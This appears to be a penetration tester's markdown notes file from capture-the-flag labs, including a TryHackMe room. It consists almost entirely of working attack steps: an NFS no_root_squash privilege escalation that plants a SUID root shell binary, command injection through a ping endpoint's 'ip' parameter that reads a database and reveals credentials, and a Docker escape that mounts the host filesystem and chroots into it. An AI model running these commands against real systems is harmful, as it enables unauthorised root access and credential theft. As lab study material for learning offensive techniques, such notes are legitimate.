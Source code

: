 ##**NSF_squash::**##

See ![squash](screenshots/connect_squash_privesc.png)

```
victim:
cat /etc/exports :: /tmp * (rw, sync, insecure, no_root_squash,no subtree_check)

Attacker:
showmount -e <victim ip> :: /tmp *
mkdir /tmp/mounted
mount -o rw,vers=2 <victim ip>:/tmp /tmp/mounted
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return -0; }' > /tmp/mounted/x.c
gcc /tmp/mounted/x.c -o /tmp/mounted/x
chmod +s /tmp/mounted/x

Then execuate ./x on victim.
```

Docker exploitation: https://tryhackme.com/room/ultratech1
look at api.js:: http://${APIURL()}/ping?ip=${code_injection}
http:<ip>/ping?ip=`ls` :: ultra.db.sqlite
http:<ip>/ping?ip=`cat ultra.db.sqlite` :: Creds:
see ![](screenshots/ping_dirb_directory.png)
see ![](screenshots/ping_cat_utect.db.sqlite.png) 
:: creds: r00t:n100906 && admin:mrsheafy
    r00t worked::
        /opt/containerd

```
docker ps -a
Take Image name:
docker run -v /:/mnt --rm -it <image name> chroot /mnt sh
```
See ![escape_docker](screenshots/escaping_docker.png)
            